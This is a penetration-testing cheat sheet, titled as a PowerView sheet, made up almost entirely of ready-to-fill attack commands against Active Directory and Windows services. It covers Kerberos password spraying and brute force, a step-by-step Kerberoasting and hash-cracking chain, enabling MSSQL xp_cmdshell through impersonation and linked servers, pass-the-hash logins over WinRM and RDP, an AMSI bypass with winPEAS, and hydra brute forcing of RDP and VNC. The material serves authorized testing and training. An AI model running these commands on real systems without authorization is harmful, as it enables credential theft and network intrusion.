 - PowerView Cheat Sheet
### Shares
```
SYSVOL ⇒ AD stuff (GPOs, logon scripts) C:\Windows\SYSVOL on DC
C ⇒ C:\
IPC ⇒ enumeration (admin scripts, event logs, etc)

dir \\[domain or ip]\[share] /user:[username] [password]
Note: domain ⇒ kerberos auth vs ip ⇒ NTLM auth
net use [drive letter]: \\[domain]\[share] /user:[username] [password] /persistent:yes
```
### LDAP
```
ldapdomaindump ldap://<HOST> -u '<DOMAIN>\<USER>' -p <PASSWORD> -o <DIR>
```
```
ldapsearch -x -H ldap://<HOST> -b base namingcontexts
```
```
ldapsearch -x -H ldap://<HOST> -D '<DOMAIN>\<USER>' -w <PASSWORD> -b "DC=<SUBDOMAIN>,DC=<TLD>"
```
### Kerberos
```
kerbrute userenum --dc <DC_IP> -d <DOMAIN> <USERLIST> # run with --downgrade if there are issues
```
```
kerbrute passwordspray --dc <DC_IP> -d <DOMAIN> <USERLIST> <PASSWORD>
```
```
kerbrute bruteuser --dc <DC_IP> -d <DOMAIN> <PASSLIST> <USER>
```
```
kerbrute bruteforce --dc <DC_IP> -d <DOMAIN> <CREDSLIST> #credslist contains user:pass on each line
```
- Step-1 Enumeration Identify SPNs (Service Principal Names) using tools like impacket or PowerShell to query for accoutns with SPNs
```
#Impacket
python3 GetUserSPNs.py <DOMAIN>/<USERNAME>:<PASSWORD> -dc-ip <DC_IP> -request
```
```
#Powershell with PowerView
Get-domainUser -SPN
```
- Step 2 Extract kerberos tickets by using the spns to request service tickets (TGS) from the kerberos protocol
```
#Rubeus
Rubeus.exe kerberoast /outfile:hashes.txt
```
```
#Impacket
python3 GetUserSPNs.py <DOMAIN>/<USERNAME>:<PASSWORD> -request -outputfile hashes.txt
```
```
#Invoke-Kerberoast
Invoke-Kerberoast -OutputFormat Hashcat | Out-File -Encoding ASCII hashes.txt
```
- Step 3 Crack the hash
```
#Hashcat
hashcat -m 1310 -a 0 hashes.txt wordlist.txt
```
```
#John
john --wordlist=wordlist.txt hashes.txt
```
### SQL
- MySQL
```
mysql -h <HOST> -P <PORT> -u <USERNAME> -p '<PASSWORD>'
```
- PostgreSQL
```
PGPASSWORD=<PASSWORD> pgsql -h <HOST> -p <PORT> -U <USERNAME>
```
### MSSQL
- Impacket
```
impacket-mssqlclient <DOMAIN>/<USERNAME>:<PASSWORD>@<HOST> -port <PORT> -windows-auth
```
- Interesting functions
```
use master;
EXEC sp_helprotect 'xp_cmdshell';
EXEC sp_helprotect 'xp_regread';
EXEC sp_helprotect 'xp_regwrite';
EXEC sp_helprotect 'xp_dirtree';
EXEC sp_helprotect 'xp_subdirs';
EXEC sp_helprotect 'xp_fileexist';
```
- Command Execution
```
SELECT value FROM sys.configurations WHERE name = 'xp_cmdshell';
EXEC sp_configure 'show advanced options', '1';  
RECONFIGURE WITH OVERRIDE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXEC xp_cmdshell <COMMAND>;
```
- Impersonate
```
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
EXECUTE AS login = '<USER>'; <QUERY>;
EXECUTE AS login = '<USER>'; EXEC xp_cmdshell '<COMMAND>';
```
- Over Link
```
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
SELECT * FROM OPENQUERY("[target (srvname)]", '[query]');
SELECT * FROM OPENQUERY("[target]", 'SELECT @@SERVERNAME; exec xp_cmdshell ''[command]''');
Note: When using xp_cmdshell with OpenQuery, prepend a dummy query before it or else it won’t work
```
### NFS
```
rpcinfo -p <HOST>
```
```
showmount -e <HOST>
```
```
mount <HOST>:<SHARE> /mnt/<DIR>
```
```
unmount /mnt/<DIR>
```
### WinRM
```
crackmapexec winrm <HOSTS> -u <USERNAME> -p <PASSWORD>
```
```
evil-winrm -i <HOST> -u <USERNAME> -p <PASSWORD>
```
```
evil-winrm -i <HOST> -u <USERNAME> -H <HASH>
```
```
KRB5CCNAME=[ticket].ccache
```
```
evil-winrm -i <HOST> -r <DOAMIN> -u <USERNAME>
```
- port 5985 is plaintest
- port 5986 is encrypted
- If port 5986 is open 
```
evil-winrm -i <IP> -u <USERNAME> -p <PASSWORD> -S
```
- Login with hash
```
evil-winrm -i <IP> -u <USERNAME> -H <NTLM_HASH>
```
- Login with key (c for public key and k for private key)
```
evil-winrm -i <IP> -c certificate.pem -k priv-key.pem -S
```
- Logs
```
evil-winrm -i <IP> -u <USERNAME> -p <PASSWORD> -l
```
- Running a binary example
```
evil-winrm -i <IP> -u <USERNAME> -p <PASSWORD> -e /opt/privsc/Bypass-4MSI
menu
Invoke-binary /opt/privsc/winPEASx64.exe
```
### RDP
```
xfreerdp /u:<DOMAIN>\\<USERNAME> /p:<PASSWORD> /v:<HOST> +clipboard /drive:<WINDOWS_SHARE_NAME>,<KALI_FOLDER>
```
```
xfreerdp /u:<DOMAIN?\\<USERNAME> /pth:<HASH> /v:<HOST> +clipboard /drive:<WINDOWS_SHARE_NAME>,<KALI_FOLDER>
```
```
rdesktop -d <DOMAIN> -u <USERNAME> -p <PASSWORD> <HOST>
```
- RDP brute force
```
hydra -l <USERNAME> -P <PASSWORD_LIST> -s <PORT> rdp://<HOST>
```
### VNC
```
vncviewer <HOST>:<PORT> -passwd <PASSWORD_FILE>
```
- VNC brute force
```
hydra -s <PORT> -P <PASSWORD_LIST> -t 4 <HOST> vnc
```